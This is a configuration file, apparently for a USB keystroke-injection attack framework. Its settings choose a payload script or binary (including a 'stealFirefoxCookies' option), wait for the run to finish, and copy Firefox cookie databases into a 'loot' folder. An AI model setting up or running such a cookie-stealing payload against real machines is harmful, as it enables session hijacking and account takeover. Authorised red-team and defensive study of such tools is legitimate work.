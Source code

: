 ```
# testing order is from left to right
# if the array only contains one element the detection will be skipped
# and the set element value will be used
# if no value is set the default value ("us") will be used
langs=( de us fr )
# if the OS is Window (detected or the variable is set by the user)
# the framework can use alt codes to force the host the use the 'us' layout
# instead of trying to detect the used keyboard layout
# set to 1 is active, 0 is deactivated
# layouts in the langs array will be ignored in this case
winForceUS=0

# Root / admin detection
# check if higher rights can be get
# set to 1 is active, 0 is deactivated
rootCheck=1


# Payload
# if a custom DUCKY SCRIPT file should be used then set the variable
# to the path of the file, e.g. "/root/udisk/library/stealCookies.sh"
# compatible DUCKY SCRIPT files should be placed in "/root/udisk/library/"
# "/root/udisk/library/template.sh" can be used as a template
# just adjust the QUACK calls in the OS functions
# if a binary should be executed then set the variable to "/root/udisk/library/payload-execute.sh"
# binaries named "win.exe", "lin" and "mac" should be placed in "/root/binaries/"
payload="/root/udisk/library/payload-execute.sh"
#payload="/root/udisk/library/stealFirefoxCookies.sh"
# for binaries optional command line arguments can be passed by setting cmdArgs
# if not needed, set it to an empty string
cmdArgs="cookies"
# file that is created by the DUCKY SCRIPT or binary to detect if the execution is finished
# needed if the type time != execution time
# e.g. when copying large files
# if not needed then set it to an empty string
# the framework will go on will not wait for any created files
doneFile="done.txt"
# maxTries = max seconds to wait for completion of a given payload
# if a payload takes longer than the specified seconds then the execution will be stopped
maxTries=15
# is root/ admin needed for the payload execution?
# if set to 1 the script uses "sudo" as prefix or a "run as admin"-started terminal
# if a root check has been done before, root is not available but needed the execution will be stopped
needRoot=0
# cp wildcard to extract files from the mass storage, comment out or set to empty string if not used
# files will be copied to the "loot" location ("/root/udisk/loot")
extractFiles="cookies[0-9]*.sqlite"

################################################################################
```

